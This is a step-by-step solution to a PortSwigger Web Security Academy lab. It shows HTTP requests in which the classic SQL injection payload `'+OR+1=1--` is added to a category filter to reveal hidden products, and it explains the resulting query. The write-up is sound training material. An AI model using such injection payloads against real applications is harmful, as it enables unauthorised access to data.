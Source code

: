 ```yaml
---
title: >
  Solution to `SQL injection vulnerability in WHERE clause allowing retrieval of hidden data`
---
```


The following is a solution to the [PortSwigger Web Security](https://portswigger.net/web-security) lab titled ["Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data"](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data).

Access the lab. From the Home page, navigate to one of the shop categories. (For this solution, the category is Accessories.)

In Burp Suite, send the request for the Accessories page to Repeater. The following is the unmodified HTTP request.

~~~
GET /filter?category=Accessories HTTP/2
Host: 0a3500a3042b2b11843a3897008800fd.web-security-academy.net
Cookie: session=egxqjkOekRr7s2wQXkObFabdTrnv1fCi
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3500a3042b2b11843a3897008800fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
~~~

Modify the HTTP request, adding `'+OR+1=1--` after `category=Accessories`. The following is the modified HTTP request.

~~~
GET /filter?category=Accessories'+OR+1=1-- HTTP/2
Host: 0a3500a3042b2b11843a3897008800fd.web-security-academy.net
Cookie: session=egxqjkOekRr7s2wQXkObFabdTrnv1fCi
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3500a3042b2b11843a3897008800fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
~~~

As a result of this modification, all product information was returned, thus solving the lab.

---

*SQL Note*

Per the lab instructions, the unmodified request (`GET /filter?category=Accessories`) results in the following SQL query:

~~~
SELECT * FROM products WHERE category = 'Accessories' AND released = 1
~~~

This returns products from the category Accessories that have been released (`released = 1`).

Adding the payload `'+OR+1=1--` to `/filter?category=Accessories` results in the following SQL query:

~~~
SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
~~~

This query grabs products in the category Accessories or where 1=1. One is always equal to one, so this query grabs all products. The addition of -- turns the rest of the line into a comment, so ` AND released = 1` is ignored.
